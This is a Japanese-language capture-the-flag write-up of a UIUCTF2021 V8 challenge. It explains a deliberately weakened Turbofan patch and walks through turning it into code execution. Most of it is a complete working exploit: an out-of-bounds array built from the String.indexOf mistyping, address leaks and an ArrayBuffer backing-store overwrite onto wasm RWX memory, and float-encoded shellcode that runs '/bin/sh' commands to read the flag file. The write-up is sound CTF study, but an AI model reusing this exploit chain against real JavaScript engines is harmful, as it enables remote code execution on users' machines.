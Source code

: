 ```yaml
---
layout: page
title: "UIUCTF2021 should've had a v8"
date: 2021-08-02 00:00:00 -0000
---
```


## まえおき
最近はv8とchrome問に明け暮れています。この週末にはv8の問題でしかもパッチは実質2行、さすがにそろそろ解いておきたいと思い、隙間時間で取り組みました。

結果としては12時間くらいオーバーして解けたので、理解をまとめて書き残したいと思います。

## パッチ

パッチ自体は色々とありますが、READMEによると結局変更は2か所だそうです。親切で助かります。

```diff
diff --git a/src/compiler/js-create-lowering.cc b/src/compiler/js-create-lowering.cc
index 899922a27f..aea23fe7ea 100644
--- a/src/compiler/js-create-lowering.cc
+++ b/src/compiler/js-create-lowering.cc         
@@ -681,7 +681,7 @@ Reduction JSCreateLowering::ReduceJSCreateArray(Node* node) {
       int capacity = static_cast<int>(length_type.Max());                                                                                                 
       // Replace length with a constant in order to protect against a potential
       // typer bug leading to length > capacity.
-      length = jsgraph()->Constant(capacity);
+      //length = jsgraph()->Constant(capacity);
       return ReduceNewArray(node, length, capacity, *initial_map, elements_kind,
                             allocation, slack_tracking_prediction);
     }
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
index 0f18222236..0f76ad896e 100644
--- a/src/compiler/typer.cc
+++ b/src/compiler/typer.cc
@@ -2073,7 +2073,7 @@ Type Typer::Visitor::TypeStringFromCodePointAt(Node* node) {
 }

 Type Typer::Visitor::TypeStringIndexOf(Node* node) {
-  return Type::Range(-1.0, String::kMaxLength, zone());
+  return Type::Range(0, String::kMaxLength, zone());
 }

 Type Typer::Visitor::TypeStringLength(Node* node) {
```

前半のReduceJSCArrayの変更は、CVE2020-6383の[一連の流れ](https://bugs.chromium.org/p/chromium/issues/detail?id=1051017)のうちの[この修正](https://chromium.googlesource.com/v8/v8.git/+/6516b1ccbe6f549d2aa2fe24510f73eb3a33b41a%5E%21/#F0)において、直接バグに関わらないものの、念のため追加された修正です。この修正ではturbofanによって`Array()`が最適化されるときに、引数が固定長だった場合には決まったサイズで確保してチェックなしで渡していたところを、capacityにそろえています。これによって、万一lengthが大きくなった場合でも、capacityで抑えられるためにOOBな配列を渡してしまうことを防ぎます。

そして今回はこの修正が取り除かれています。つまり`Array()`を使ってOOBな配列を作ってくださいねという指示と受け取れます。

後半の`TypeStringIndexOf`への修正は、これによってtrubofanの推定は、「String型に対するindexOfは-1が返ってこない」と解釈してしまうようになります。実際には文字列にない文字を指定することで-1が返りますので、ずれが生じます。

この問題は、このずれと、`Array()`のチェック無効を利用してOOBな配列を生成し、これを利用してコード実行を達成するという内容になっています。

## PoCの作成
コード実行を達成するためには、まずバグを利用してOOB配列を作る必要があります。必要な項目は以下の通りです。
- turbofanの推定では固定値が`Array()`に入るようにすること
- `str.indexOf()`の返り値-1になるときには巨大な値になること

最終的に以下のような関数で、OOB配列を作成することができました。

```js
function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);    /*1*/
        bad = -bad;                 /*2*/
        bad *= 0x100;               /*3*/
        bad += 10;                  /*4*/
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}
```

それぞれ実際の値：右と、推定値：左は以下のようになるはずです。

- 1のとき： -1, -0
- 2のとき： 1, 0
- 3のとき： 0x100, 0
- 4のとき： 0x10a, 10

turbofanでは`Array()`の引数が10になるので、これが入るような固定のサイズが用意されます。しかし実際にはもっと大きな値が入力され、OOB配列が手に入ります。

## 残ったもの
あとはやるだけです。（時間内にできませんでしたが。）
手順は以下の通りです。

1. double配列と、オブジェクト配列を利用してwasm_instance+0x60にあるrwxのアドレスをリーク
2. ArrayBufferのポインタをrwxに書き換える
3. rwxにシェルコードを載せる

wasm_instanceはポインタ圧縮範囲内、rwxは範囲外ですので、それぞれdouble arrayとArrayBufferを準備して、ポインタを書き換えます。
最終的なコードです。

```js
var buf = new ArrayBuffer(8);
var f64 = new Float64Array(buf);
var i64 = new BigInt64Array(buf);

function f2i(v) {
        f64[0] = v;
        return i64[0];
}
function i2f(v) {
        i64[0] = v;
        return f64[0];
}
function hex(v) { return "0x"+v.toString(16); }

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shellcode = wasm_instance.exports.main;

function optme(){
        var str = "ABC";
        var bad = str.indexOf("a");
        bad = Math.min(bad, -0);
        bad = -bad;
        bad *= 0x100;
        bad += 10;
        var out = Array(bad);
        out[0] = 1.1;
        return [out, {}];
}

var oob = optme()[0];
for (let i = 0; i < 100000; i++) {
        oob = optme();
}

// get oob array
oob = optme()[0];

// prepare helpers
var reader = [1.1, 2.2, 3.3];
var objarray = [reader, wasm_instance];
var writer = new ArrayBuffer(8);
var f64_writer = new Float64Array(writer);

// addr of wasm_instance
leak = f2i(oob[35]) >> 32n;

// elem of "reader" points to wasm_instance+0x60 (have rwx addr)
oob[23] =  i2f((6n << 32n)+leak+0x60n);

// leak rwx address 
var rwx = f2i(reader[0]);
print("rwx: ", hex(rwx));

// change length of "writer" to 0x20 
oob[47] = i2f(0x20n);

// change backing store ptr of "writer" to rwx
oob[48] = i2f(rwx);

// cmd: /bin/sh -c "ls -la /"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.9806662284999126e+161, 5.9604e-320, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];
// cmd: /bin/sh -c "cat /flag.txt"
var sc = [-6.828527034422786e-229, 3.1048139649706616e-307, 1.653261323414007e+184, 1.8219370047921238e-306, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 0.0, 5.432309224871097e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318];

// set shellcode to rwx through float view
f64_writer.set(sc, 0);

shellcode();
```

リモートでもローカルでも動きましたが、現在リモートはお休み中のようです。無念。フラグは見られたので良しとします。初めてカンニングせずに解き切れました。

少し反省を書いておきます。

普段は`--shell`を使って、あとからアタッチしてアドレスを特定しながら作業しますが、今回は不覚にもデバッグ方法が思いつかなかったため、かなりしらみつぶしに作っていって、すごくつらかったです。そしてこれは、普通にgdbでv8を立ち上げればよかったのです。

思いついてから30分程度で解けました。ちゃんと落ち着いて考えましょう。

chrome問でも似たようなデバッガどうつなげばいいの問題があるので、だれか教えてください。
